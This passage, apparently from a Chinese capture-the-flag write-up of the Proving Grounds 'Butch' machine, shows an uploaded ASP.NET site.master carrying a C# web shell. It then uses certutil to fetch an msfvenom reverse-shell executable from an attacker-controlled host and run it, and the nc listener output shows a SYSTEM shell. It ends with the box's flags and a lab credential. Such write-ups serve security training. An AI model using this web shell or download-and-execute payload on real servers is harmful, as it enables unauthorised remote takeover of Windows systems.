创建一个新的 site.master 文件开始。将包含原始文件中的现有内容并附加任意 C# 代码，该代码输出正在运行 Web 应用程序的用户的名称：

```c#
&lt;%@ Language=&#34;C#&#34; src=&#34;site.master.cs&#34; Inherits=&#34;MyNamespaceMaster.MyClassMaster&#34; %&gt;
&lt;!DOCTYPE html PUBLIC &#34;-//W3C//DTD XHTML 1.0 Strict//EN&#34; &#34;http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd&#34;&gt;
&lt;html xmlns=&#34;http://www.w3.org/1999/xhtml&#34; lang=&#34;en&#34;&gt;
	&lt;head runat=&#34;server&#34;&gt;
		&lt;title&gt;Butch&lt;/title&gt;
		&lt;meta http-equiv=&#34;Content-Type&#34; content=&#34;text/html; charset=utf-8&#34; /&gt;
		&lt;meta name=&#34;application-name&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;author&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;description&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;keywords&#34; content=&#34;Butch&#34;&gt;
		&lt;link media=&#34;all&#34; href=&#34;style.css&#34; rel=&#34;stylesheet&#34; type=&#34;text/css&#34; /&gt;
		&lt;link id=&#34;favicon&#34; rel=&#34;shortcut icon&#34; type=&#34;image/png&#34; href=&#34;favicon.png&#34; /&gt;
	&lt;/head&gt;
	&lt;body&gt;
		&lt;div id=&#34;wrap&#34;&gt;
			&lt;div id=&#34;header&#34;&gt;Welcome to Butch Repository&lt;/div&gt;
			&lt;div id=&#34;main&#34;&gt;
				&lt;div id=&#34;content&#34;&gt;
					&lt;br /&gt;
					&lt;asp:contentplaceholder id=&#34;ContentPlaceHolder1&#34; runat=&#34;server&#34;&gt;&lt;/asp:contentplaceholder&gt;
					&lt;br /&gt;
				&lt;/div&gt;
			&lt;/div&gt;
		&lt;/div&gt;
	&lt;/body&gt;
&lt;/html&gt;
&lt;%
string stdout = &#34;&#34;;
string cmd = &#34;whoami&#34;;
System.Diagnostics.ProcessStartInfo procStartInfo = new System.Diagnostics.ProcessStartInfo(&#34;cmd&#34;, &#34;/c &#34; &#43; cmd);
procStartInfo.RedirectStandardOutput = true;
procStartInfo.UseShellExecute = false;
procStartInfo.CreateNoWindow = true;
System.Diagnostics.Process p = new System.Diagnostics.Process();
p.StartInfo = procStartInfo;
p.Start();
stdout = p.StandardOutput.ReadToEnd();
Response.Write(stdout);
%&gt;
```

这么做的好处在于不会让环境崩溃，无需重置环境。



上传成功后，刷新当前页面，会在网页底部输出 whoami的命令执行结果。

注意，第一次上传后需要刷新页面，或者用Get方式访问当前页才有命令执行结果，上图中是因为已经是第二次上传了。

接下去替换命令内容，下载由MSFVenom生产的shell.exe，并执行获取反弹shell。

```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.65 LPORT=450 -f exe -o shell.exe
$ sudo python3 -m http.server 445
```


```sh
&lt;%
string stdout = &#34;&#34;;
ArrayList commands = new ArrayList();
commands.Add(&#34;certutil.exe -urlcache -split -f \&#34;http://192.168.49.65:445/shell.exe\&#34; \&#34;C:\\inetpub\\wwwroot\\shell.exe\&#34;&#34;);
commands.Add(&#34;\&#34;C:\\inetpub\\wwwroot\\shell.exe\&#34;&#34;);
foreach (string cmd in commands) {
	System.Threading.Thread.Sleep(3000);
	System.Diagnostics.ProcessStartInfo procStartInfo = new System.Diagnostics.ProcessStartInfo(&#34;cmd&#34;, &#34;/c &#34; &#43; cmd);
	procStartInfo.RedirectStandardOutput = true;
	procStartInfo.UseShellExecute = false;
	procStartInfo.CreateNoWindow = true;
	System.Diagnostics.Process p = new System.Diagnostics.Process();
	p.StartInfo = procStartInfo;
	p.Start();
	stdout = p.StandardOutput.ReadToEnd();
	Response.Write(stdout);
}
%&gt;
```


nc监听450端口，获取反弹Shell

```sh
kali@kali:~$ sudo nc -lvp 450
listening on [any] 450 ...
192.168.65.63: inverse host lookup failed: Unknown host
connect to [192.168.49.65] from (UNKNOWN) [192.168.65.63] 49687
Microsoft Windows [Version 10.0.17763.1217]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv&gt;whoami
whoami
nt authority\system

c:\windows\system32\inetsrv&gt;
```


## Flag

```
butch/awesomedude

type C:\users\administrator\desktop\proof.txt
8efb9ecaa9dd953e25de084f5db30648

type C:\users\butch\desktop\local.txt
0f5cfaf654fe39337300f602295effb4
```


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/provinggrounds-butch/  

